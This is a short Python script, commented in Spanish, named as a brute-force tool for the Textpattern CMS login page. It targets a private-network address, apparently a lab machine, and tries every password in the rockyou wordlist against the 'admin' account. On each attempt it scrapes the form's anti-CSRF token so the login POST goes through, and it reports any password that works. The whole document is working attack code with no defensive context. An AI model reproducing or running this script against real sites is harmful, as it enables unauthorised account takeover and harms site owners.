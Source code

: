 textpattern_bruteforce


"import requests
from bs4 import BeautifulSoup

# URL base del login
url_login = "http://192.168.55.219/textpattern/textpattern/index.php"

# Usuario y lista de contraseñas
usuario = "admin"
password_list = "/usr/share/wordlists/rockyou.txt"

# Leer contraseñas
with open(password_list, "r", encoding="utf-8", errors="ignore") as f:
    passwords = f.read().splitlines()

# Sesión para manejar cookies
session = requests.Session()

for pwd in passwords:
    # 1. GET para obtener el token
    r = session.get(url_login)
    soup = BeautifulSoup(r.text, "html.parser")
    token_tag = soup.find("input", {"name": "_txp_token"})
    if not token_tag:
        print("No se encontró el token")
        break
    token = token_tag.get("value", "")

    # 2. POST con usuario, contraseña y token
    data = {
        "login_username": usuario,
        "login_password": pwd,
        "_txp_token": token
    }
    post = session.post(url_login, data=data)

    # 3. Verificar si el login fue exitoso
    if "Sorry, the form could not be submitted" not in post.text:
        print(f"[+] Contraseña válida encontrada: {pwd}")
        break
    else:
        print(f"[-] Intento fallido: {pwd}")
"
